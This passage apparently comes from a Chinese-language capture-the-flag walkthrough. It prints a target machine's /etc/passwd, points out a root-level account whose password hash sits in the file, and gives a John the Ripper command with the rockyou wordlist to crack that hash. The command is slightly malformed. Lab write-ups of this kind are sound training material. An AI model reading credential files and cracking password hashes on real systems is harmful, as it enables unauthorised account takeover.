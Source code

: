 直接读取`/etc/passwd`：

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin                                                                           
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin                                                                               
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
bob:x:1000:1004:bob:/home/bob:/bin/bash
statd:x:111:65534::/var/lib/nfs:/usr/sbin/nologin
peter:x:1001:1005:,,,:/home/peter:/bin/bash
insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh          高权限用户且有密码hash值
susan:x:1002:1006:,,,:/home/susan:/bin/rbash
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151400.png" alt="image-20240224215948836" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151401.png" alt="image-20240224215859358" style="zoom:50%;" />

或者 kali 一站到底：

```bash
echo AzER3pBZh6WZE > hash | john hash --wordlist = /usr/share/wordlists/rockyou.txt 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151402.png" alt="image-20240225001309318" style="zoom:50%;" />
